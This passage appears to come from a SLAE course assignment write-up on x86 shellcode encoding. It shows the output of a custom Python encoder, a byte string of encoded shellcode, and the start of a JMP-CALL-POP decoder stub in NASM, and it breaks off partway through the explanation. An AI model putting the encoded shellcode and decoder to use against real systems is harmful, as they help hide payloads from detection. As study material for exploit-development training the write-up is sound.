 ```term

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

Let's encode the shellcode:

```term
whitecr0wz@SLAE:~/assembly/assignments/Assignment_4$ python custom_encoder.py 
Encoded shellcode ...
"\x88\x45\x79\x45\xe9\x45\xd1\x45\x96\x45\x96\x45\xca\x45\xd1\x45\xd1\x45\x96\x45\xdb\x45\xd0\x45\xd7\x45\x30\x45\x5a\x45\xe9\x45\x30\x45\x5b\x45\x09\x45\xb2\x45\x74\x45\x39\x45
"
0x88,0x45,0x79,0x45,0xe9,0x45,0xd1,0x45,0x96,0x45,0x96,0x45,0xca,0x45,0xd1,0x45,0xd1,0x45,0x96,0x45,0xdb,0x45,0xd0,0x45,0xd7,0x45,0x30,0x45,0x5a,0x45,0xe9,0x45,0x30,0x45,0x5b,0x
45,0x09,0x45,0xb2,0x45,0x74,0x45,0x39,0x45,
Len: 22
whitecr0wz@SLAE:~/assembly/assignments/Assignment_4$
```

Good, let's create the skeleton code:

```term
global _start

section .text

_start:

      jmp short master               ; Jumps to master

main:

      pop ebp                        ; Pops the value of the shellcode into ebp
      mov esi, ebp                   ; Copies the value from ebp to esi

master:

      call main                      ; Calls to main and pops shellcode into the stack

      shellcode: db 0x88,0x45,0x79,0x45,0xe9,0x45,0xd1,0x45,0x96,0x45,0x96,0x45,0xca,0x45,0xd1,0x45,0xd1,0x45,0x96,0x45,0xdb,0x45,0xd0,0x45,0xd7,0x45,0x30,0x45,0x5a,0x45,0xe9,0x45,0x30,0x45,0x5b,0x45,0x09,0x45,0xb2,0x45,0x74,0x45,0x39,0x45
```

Right now, the flow jumps to the master section and calls main, pushing the value of shellcode into the stack and popping into EBP. Furthermore, this value is copied into ESI, 
this will be essential when it comes to the following sections of XORing and NOT decoding the instructions, as the ESI value will have to be zeroed, therefore, EBP being a 
backup register.

Now, the following steps are the same as when it comes to any insertion decoder:
